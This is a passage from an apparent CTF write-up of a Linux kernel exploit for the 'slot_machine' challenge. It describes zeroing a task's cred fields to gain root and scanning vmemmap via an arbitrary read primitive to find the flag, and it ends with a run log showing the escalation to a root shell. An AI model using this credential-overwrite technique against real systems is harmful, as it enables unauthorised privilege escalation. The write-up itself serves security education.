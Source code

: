 ```c
        struct key      *session_keyring; /* keyring inherited over fork */
        struct key      *process_keyring; /* keyring private to this process */
        struct key      *thread_keyring; /* keyring private to this thread */
        struct key      *request_key_auth; /* assumed request_key authority */
#endif
#ifdef CONFIG_SECURITY
        void            *security;      /* LSM security */
#endif
        struct user_struct *user;       /* real user ID subscription */
        struct user_namespace *user_ns; /* user_ns the caps and keyrings are relative to. */
        struct ucounts *ucounts;
        struct group_info *group_info;  /* supplementary groups for euid/fsgid */
        /* RCU deletion */
        union {
                int non_rcu;                    /* Can we skip RCU deletion? */
                struct rcu_head	rcu;            /* RCU deletion hook */
        };
} __randomize_layout;
```

By overwriting all members starting with `uid` and ending with `fsgid` with zeros, our task's credentials become root credentials.

We had assumed that we can find the heap address of our tasks's `comm` member. But how can we do that? Since we have computed `vmemmap_base` above
based on the leaked `page` pointer of a pipe buffer, we can iterate through `vmemmap_base + idx * 0x40` and use our arbitrary read primitive to read
the physical memory represented by `vmemmap_base + idx * 0x40`. In each iteration, we search for our task's `comm` string and perform some additional
checks to make sure that it's the `comm` string of a `struct task_struct` structure.

Nice, now we can become root!

### Reading the Flag

Although we have become root, we still need/want to solve the challenge and find the flag. Recall that the flag is stored in the `.bss` segment of the
loaded `slot_machine` kernel module. We just use the above primitive and iterate through `vmemmap_base + idx * 0x40` until we find the flag identifier
`TFCCTF{` on a page. This was sufficient to find the flag!

### Example Execution

Let's see the exploit in action. It prints the flag and spawns us a beautiful root shell:

```
~ $ id
uid=1000(noob) gid=1000(noob) groups=1000(noob)
~ $ /exploit 
[*] Allocating pipes ...
[*] Writing to each pipe and checking if the victim chunk was reclaimed by a pipe buffer ...
[+] found victim pipe idx: 0
[+] kernel base: ffffffffafc00000
[+] vmemmap_base = 0xffdeb63880000000
[+] found creds: creds = 0xff18f375c1125600, page_creds = 0xffdeb63880044940
[*] Overwriting our task's credentials with zeros...
[+] Became successfully root! getuid() = 0
[*] Coming back to the CTF challenge... Iterating through vmemmap, reading from pages, and looking for the flag ...
[+] Found the flag: TFCCTF{fakeflag}

[+] Now enjoy your root shell :-)
/bin/sh: can't access tty; job control turned off
~ # id
uid=0(root) gid=0(root) groups=1000(noob)
```